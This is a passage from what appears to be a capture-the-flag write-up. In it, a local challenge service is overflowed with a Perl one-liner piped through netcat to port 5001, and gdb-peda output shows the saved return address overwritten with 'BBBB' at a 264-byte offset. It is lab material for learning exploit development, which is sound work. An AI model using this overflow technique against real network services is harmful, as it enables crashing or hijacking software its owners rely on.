 ```
   0x00000000004009df <+57>:    mov    edx,0x6
   0x00000000004009e4 <+62>:    mov    esi,0x400cd8
   0x00000000004009e9 <+67>:    mov    rdi,rax
   0x00000000004009ec <+70>:    call   0x400810 <memcmp@plt>
   0x00000000004009f1 <+75>:    test   eax,eax
   0x00000000004009f3 <+77>:    jne    0x4009fc <handleData+86>
   0x00000000004009f5 <+79>:    mov    eax,0x1
   0x00000000004009fa <+84>:    jmp    0x400a01 <handleData+91>
   0x00000000004009fc <+86>:    mov    eax,0x0
   0x0000000000400a01 <+91>:    leave
   0x0000000000400a02 <+92>:    ret
End of assembler dump.
gdb-peda$ b *0x0000000000400a02
Breakpoint 1 at 0x400a02
gdb-peda$ c
```

Send an overly long string:
```
root@hlUbuntu64:~/challenges/challenge15# perl -e 'print "A" x 264 . "BBBB"' | nc localhost 5001
```

And check the output of gdb/peda:
```
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x73 ('s')
RDX: 0x6
RSI: 0x400cde --> 0x20746e65696c4300 ('')
RDI: 0x7fffffffdff6 ('A' <repeats 200 times>...)
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdbd8 --> 0x42424242 ('BBBB')
RIP: 0x400a02 (<handleData+92>: ret)
R8 : 0x0
R9 : 0x1f
R10: 0x37d
R11: 0x7ffff7ba2730 --> 0xfffda400fffda12f
R12: 0x4008b0 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe650 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
  0x4009fa <handleData+84>:    jmp    0x400a01 <handleData+91>
  0x4009fc <handleData+86>:    mov    eax,0x0
  0x400a01 <handleData+91>:    leave
=> 0x400a02 <handleData+92>:    ret
  0x400a03 <doprocessing>:     push   rbp
  0x400a04 <doprocessing+1>:   mov    rbp,rsp
  0x400a07 <doprocessing+4>:   sub    rsp,0x820
  0x400a0e <doprocessing+11>:  mov    DWORD PTR [rbp-0x814],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdbd8 --> 0x42424242 ('BBBB')
0008| 0x7fffffffdbe0 --> 0x6e0000005d (']')
0016| 0x7fffffffdbe8 --> 0x400000000
0024| 0x7fffffffdbf0 --> 0x0
0032| 0x7fffffffdbf8 --> 0x0
0040| 0x7fffffffdc00 --> 0x0
0048| 0x7fffffffdc08 --> 0x0
0056| 0x7fffffffdc10 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

```